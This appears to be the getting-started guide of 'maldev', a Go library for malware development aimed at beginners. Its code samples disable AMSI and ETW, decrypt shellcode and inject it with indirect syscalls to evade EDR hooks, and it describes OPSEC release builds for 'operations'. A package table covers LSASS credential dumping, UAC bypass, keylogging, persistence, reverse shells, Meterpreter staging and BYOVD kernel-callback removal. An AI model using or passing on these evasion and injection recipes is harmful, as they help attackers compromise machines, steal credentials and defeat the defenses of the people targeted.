

# Getting Started

[← Back to README](../README.md)

Welcome to maldev — a modular Go library for offensive security research. This guide assumes zero malware development experience.

## Prerequisites

- **Go 1.21+** installed
- **Windows** for most techniques (some work cross-platform)
- Basic Go knowledge (functions, packages, error handling)
- For OPSEC builds: `garble` (`go install mvdan.cc/garble@latest`)

## Installation

```bash
go get github.com/oioio-space/maldev@latest
```

## Core Concepts

### What is maldev?

maldev is a **library**, not a framework. You import the packages you need and compose them:



### The Three Levels of Stealth

Every technique has a **detection level**. Choose based on your threat model:

| Level | Meaning | Example |
|-------|---------|---------|
| **Low** | Normal system behavior | Reading drive letters, checking version |
| **Medium** | Suspicious but common | Memory allocation, thread creation |
| **High** | Highly monitored | Cross-process injection, ntdll unhooking |

### The Caller Pattern

The most important concept in maldev. Every function that calls Windows NT syscalls accepts an optional `*wsyscall.Caller`:

```go
// Without Caller — uses standard WinAPI (hookable by EDR)
injector, _ := inject.NewInjector(&inject.Config{
    Method: inject.MethodCreateRemoteThread,
    PID:    pid,
})
injector.Inject(shellcode)

// With Caller — routes through indirect syscalls (bypasses EDR hooks)
injector, _ = inject.Build().
    Method(inject.MethodCreateRemoteThread).
    PID(pid).
    IndirectSyscalls().
    Create()
injector.Inject(shellcode)
```

**Rule of thumb**: Always create a Caller for real operations. Pass `nil` only for testing.

## Your First Program

### Step 1: Evasion (disable defenses)

```go
package main

import (
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
)

func main() {
    // Apply evasion techniques before doing anything suspicious
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),  // disable AMSI scanning
        etw.All(),               // disable ETW logging
    }
    evasion.ApplyAll(techniques, nil) // nil = standard WinAPI
}
```

### Step 2: Load shellcode

```go
import "github.com/oioio-space/maldev/crypto"

// Decrypt your payload (encrypted at build time)
key := []byte{/* your 32-byte AES key */}
shellcode, _ := crypto.DecryptAESGCM(key, encryptedPayload)
```

### Step 3: Inject

```go
import "github.com/oioio-space/maldev/inject"

cfg := &inject.Config{
    Method: inject.MethodCreateThread,  // self-injection
}
injector, _ := inject.NewInjector(cfg)
injector.Inject(shellcode)
```

### Step 4: Build for operations

```bash
# Development build (with logging)
make debug

# Release build (OPSEC, no strings, no debug info)
make release
```

## Per-Package Quick-Reference

If you know the technique you want, jump straight to the matching package:

| Goal | Package | Doc |
|---|---|---|
| Encrypt the payload before embedding | `crypto` | [Payload Encryption](techniques/crypto/payload-encryption.md) |
| Encode the payload for transport | `encode` | [Encode](techniques/encode/README.md) |
| Patch AMSI / ETW in-process | `evasion/amsi`, `evasion/etw` | [AMSI](techniques/evasion/amsi-bypass.md) · [ETW](techniques/evasion/etw-patching.md) |
| Restore hooked ntdll | `evasion/unhook` | [NTDLL Unhooking](techniques/evasion/ntdll-unhooking.md) |
| Sleep with masked memory | `evasion/sleepmask` | [Sleep Mask](techniques/evasion/sleep-mask.md) |
| Spoof a callstack frame | `evasion/callstack` | [Callstack Spoof](techniques/evasion/callstack-spoof.md) |
| Remove EDR kernel callbacks | `evasion/kcallback` | [Kernel-Callback Removal](techniques/evasion/kernel-callback-removal.md) |
| BYOVD kernel R/W | `kernel/driver` (`rtcore64`) | [BYOVD RTCore64](techniques/evasion/byovd-rtcore64.md) |
| Direct/indirect syscalls | `win/syscall` | [Syscall Methods](techniques/syscalls/README.md) |
| Inject shellcode | `inject/*` (15 methods) | [Injection](techniques/injection/README.md) |
| Reflectively load a PE | `pe/srdi` | [PE → Shellcode](techniques/pe/pe-to-shellcode.md) |
| Strip Go fingerprints | `pe/strip` | [Strip + Sanitize](techniques/pe/strip-sanitize.md) |
| Run a .NET assembly in-process | `runtime/clr` | [Runtime](runtime.md) |
| Run a Beacon Object File | `runtime/bof` | [Runtime](runtime.md) |
| Dump LSASS | `credentials/lsassdump` | [LSASS Dump](techniques/collection/lsass-dump.md) |
| Parse a MINIDUMP for NT hashes | `credentials/sekurlsa` | [LSASS Parse](techniques/credentials/sekurlsa.md) |
| Bypass UAC | `privesc/uac` | [Privilege](privilege.md) |
| Spoof a process command-line | `process/tamper/fakecmd` | [FakeCmd](techniques/evasion/fakecmd.md) |
| Suspend Event Log threads | `process/tamper/phant0m` | [Phant0m](techniques/evasion/phant0m.md) |
| Persistence — registry | `persistence/registry` | [Registry](techniques/persistence/registry.md) |
| Persistence — Startup folder | `persistence/startup` | [Startup Folder](techniques/persistence/startup-folder.md) |
| Persistence — scheduled task | `persistence/scheduler` | [Task Scheduler](techniques/persistence/task-scheduler.md) |
| Capture clipboard / keys / screen | `collection/{clipboard,keylog,screenshot}` | [Collection](collection.md) |
| Reverse shell | `c2/shell` | [Reverse Shell](techniques/c2/reverse-shell.md) |
| Metasploit staging | `c2/meterpreter` | [Meterpreter](techniques/c2/meterpreter.md) |
| Multi-session listener (operator side) | `c2/multicat` | [Multicat](techniques/c2/multicat.md) |
| Named-pipe transport | `c2/transport/namedpipe` | [Named Pipe](techniques/c2/namedpipe.md) |
| Wipe in-process buffers | `cleanup/memory` | [Memory Wipe](techniques/cleanup/memory-wipe.md) |
| Self-delete on exit | `cleanup/selfdel` | [Self-Delete](techniques/cleanup/self-delete.md) |
| Compute fuzzy hash similarity | `hash` | [Fuzzy Hashing](techniques/crypto/fuzzy-hashing.md) |

For the full layered map, see [Architecture § Per-Package Quick-Reference](architecture.md#per-package-quick-reference).

## What to Read Next

| Goal | Read |
|------|------|
| Understand the architecture | [Architecture](architecture.md) |
| Learn injection techniques | [Injection Techniques](techniques/injection/README.md) |
| Learn EDR evasion | [Evasion Techniques](techniques/evasion/README.md) |
| Understand syscall bypass | [Syscall Methods](techniques/syscalls/README.md) |
| Set up C2 communication | [C2 & Transport](techniques/c2/README.md) |
| Build for operations | [OPSEC Build Guide](opsec-build.md) |
| See composed examples | [Examples](examples/) |
| Full MITRE coverage | [MITRE ATT&CK + D3FEND Mapping](mitre.md) |

## Terminology Quick Reference

| Term | Meaning |
|------|---------|
| **Shellcode** | Raw machine code bytes that execute independently |
| **Injection** | Running code in another process's address space |
| **EDR** | Endpoint Detection & Response (e.g., CrowdStrike, Defender) |
| **Hook** | EDR modification of function prologues to intercept calls |
| **Syscall** | Direct kernel call, bypassing userland hooks |
| **SSN** | Syscall Service Number — index into kernel's function table |
| **PEB** | Process Environment Block — per-process kernel structure |
| **AMSI** | Antimalware Scan Interface — Microsoft's content scanning API |
| **ETW** | Event Tracing for Windows — kernel telemetry system |
| **Caller** | maldev's abstraction for choosing syscall routing method |
| **OPSEC** | Operational Security — avoiding detection and attribution |
